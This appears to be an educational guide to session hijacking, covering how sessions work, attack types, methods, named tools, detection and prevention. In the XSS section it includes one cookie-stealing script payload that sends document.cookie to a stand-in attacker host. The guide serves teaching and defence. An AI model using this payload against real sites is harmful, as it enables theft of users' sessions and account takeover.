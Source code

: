 Session Hijacking – Complete Guide

1. What is Session Hijacking?

       Session hijacking is a cyberattack where an attacker takes over an active communication session between two systems—typically a user and a web application—by stealing or predicting the session ID.
       Once successful, the attacker can impersonate the legitimate user and perform actions as them without needing to log in.

2. How Sessions Work

       1) Session: A temporary interaction between a client and a server after authentication.
       2) Session ID: A unique token (usually stored in cookies, URL parameters, or HTTP headers) used to track the user’s session.
       3) Session Management: The process of creating, maintaining, and terminating sessions securely.

When a user logs in:

    1) They provide valid credentials.
    2) The server creates a session ID.
    3) The session ID is sent to the client.
    4) The client sends the ID with every request.
    5) If the session ID is stolen, the attacker bypasses authentication.

3. Types of Session Hijacking

       A. Active Session Hijacking --- The attacker actively takes over a session while it’s still in progress.
          a) Example: Using a man-in-the-middle (MITM) attack to inject commands.
       B. Passive Session Hijacking --- The attacker silently monitors and captures traffic to extract the session ID.
          a) Example: Packet sniffing on unencrypted Wi-Fi.

4. Methods of Session Hijacking

       4.1. Session Sniffing
            a) Capturing unencrypted network packets to extract session IDs.
            b) Tools: Wireshark, tcpdump, Ettercap.

       4.2. Cross-Site Scripting (XSS)
            a) Injecting malicious JavaScript to steal cookies containing session IDs.
            b) Example: <script>document.location='http://attacker.com?cookie='+document.cookie</script>

       4.3. Man-in-the-Middle (MITM)
            a) Intercepting communication between client and server.
            b) Tools: Bettercap, Cain & Abel, MITMf.

       4.4. Session Fixation
            a) Attacker sets the victim’s session ID before login, then reuses it after authentication.

       4.5. Predictable Session IDs
            a) If a web application generates weak or guessable session IDs, the attacker can guess them.

       4.6. Malware / Keyloggers
            a) Stealing session tokens from browser storage or memory.

       4.7. Sidejacking
            a) Hijacking HTTP sessions over unsecured Wi-Fi using packet sniffers.
            b) Example: Firesheep browser extension.

5. Steps of a Session Hijacking Attack

       1) Preparation – Set up sniffing or interception tools.
       2) Session ID Capture – Extract the session token from cookies, headers, or URLs.
       3) Session Injection – Use the stolen session ID to craft requests.
       4) Privilege Escalation – Attempt actions as the victim (view data, perform transactions).
       5) Maintaining Access – Possibly create a backdoor or persist with stolen cookies.

6. Tools for Session Hijacking

       1) Wireshark – Packet analysis
       2) Ettercap – MITM attacks
       3) Bettercap – Advanced MITM
       4) Burp Suite – Intercept and manipulate HTTP traffic
       5) Cain & Abel – Sniffing and session token grabbing
       6) Firesheep – Sidejacking (HTTP session hijacking)

7. Detection of Session Hijacking

       1) Abnormal IP Changes: Session suddenly accessed from different locations.
       2) Multiple Devices: Same session used from two devices at once.
       3) High Volume Requests: Automated actions in a short time frame.
       4) IDS/IPS Alerts: Detection of suspicious packet patterns.

8. Prevention & Countermeasures

       8.1. For Web Developers
            a) Use HTTPS for all sessions.
            b) Implement Secure, HttpOnly, and SameSite cookie flags.
            c) Regenerate session IDs after login.
            d) Use unpredictable and cryptographically secure session IDs.
            e) Implement session timeout & inactivity logout.
            f) Detect anomalies in session behavior.

       8.2. For Network Administrators
            a) Use VPNs for internal access.
            b) Enforce TLS/SSL encryption.
            c) Deploy Intrusion Detection/Prevention Systems.
            d) Segment networks to limit sniffing.

       8.3. For End Users
            a) Avoid public Wi-Fi for sensitive logins.
            b) Use VPNs when possible.
            c) Log out from accounts after use.
            d) Disable browser features that store passwords and cookies insecurely.


